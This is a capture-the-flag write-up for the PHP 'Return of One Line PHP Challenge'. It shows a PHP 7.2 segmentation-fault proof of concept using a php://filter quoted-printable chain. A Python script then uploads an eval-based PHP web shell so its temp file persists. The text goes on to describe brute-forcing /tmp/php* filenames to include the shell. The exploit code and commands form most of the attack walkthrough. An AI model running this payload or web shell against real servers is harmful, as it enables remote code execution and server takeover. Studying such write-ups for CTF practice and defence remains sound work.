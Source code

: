 ### References

- [@wupco, rwctf | The return of One Line PHP Challenge, 2018-12-02](http://www.wupco.cn/?p=4465)
- [@Smi1e, Real World CTF Of "The Return of One Line PHP Challenge", 2018-12-05](https://www.anquanke.com/post/id/167219)
- [@王一航, LFI via SegmentFault, 2017-11-08](https://www.jianshu.com/p/dfd049924258)

**Tag: PHP wrappers, Segment Fault**

There was one bug submitted in 2017 from 王一航, which was segmentation fault in php version < 7.2, you can get information in reference[3]

This challenge is similar to this bug, but the php version given here was 7.2, 
so we need to find segmentation fault in 7.2. [Here](https://hackmd.io/@ZzDmROodQUynQsF9je3Q5Q/Hk-2nUb3Q?type=view) is analysis from @wupco, and we can get the POC:

```php
php > echo phpversion();
7.2.12
php > file(urldecode('php://filter/convert.quoted-printable-encode/resource=data://,%bfAAAAAAAAFAAAAAAAAAAAAAA%ff%ff%ff%ff%ff%ff%ff%ffAAAAAAAAAAAAAAAAAAAAAAAA'));
Segmentation fault (core dumped)
```

1.As everyone knows, when we upload a file, server make a temp file having same content as uploaded file and after some time it gets deleted.

The temp file will be stored in the default temporary directory of the server after file is uploaded, and the directory is specified by the `upload_tmp_dir` attribute of php.ini

- Generally, Linxu temporary files are stored in the `/tmp` folder, and named `/tmp/php[6 random letter]`
- And Windows is `C:/Windows/`, may also be `C:/Windows/Temp/`, and named `C:/Windows/php[4 random letter].tmp`

2.We can use the following script to make POST request and send shell file:

```python
import io
import requests

HOST = "http://192.168.200.129/test.php"
SHELL = "@<?php eval($_REQUEST[a]);?>"
PAYLOAD = "php://filter/convert.quoted-printable-encode/resource=data://,%bfAAAAAAAAAAAAAAAAAAAAAAA%ff%ff%ff%ff%ff%ff%ff%ffAAAAAAAAAAAAAAAAAAAAAAAA"

f = {'file': io.BytesIO(SHELL.encode())}
url = HOST + f'?orange={PAYLOAD}'
with requests.session() as s:
    r = s.post(url=url, files=f, allow_redirects=False)
    print(r.status_code)
```

The output status code in Apache is 500, and in Nginx is 502. In `/tmp`, we can find the temp file:

![img1](./assets/img1.png?raw=true)

3.Now we just need to bruteforce for the temp file. But before that, we can upload multiple times to generate a large number of temp files which can improve the efficiency of brute force.

For demonstration, I changed the file name manually:

![img2](./assets/img2.png?raw=true)

btw, i dont know how to terminate the program in multiple threads. sad😥

![img3](./assets/img3.png?raw=true)

---

2021.06.02 Update:

Later learned to use the `Event` module.

> `Event` is an object that can be used in multiple threads, initially it contains a signal flag of `False`, once this flag is changed to `True` in any one thread, then all threads will see this flag become True

So a slight modification to the poc.py. When `event.set()` is executed, Another thread is then terminated.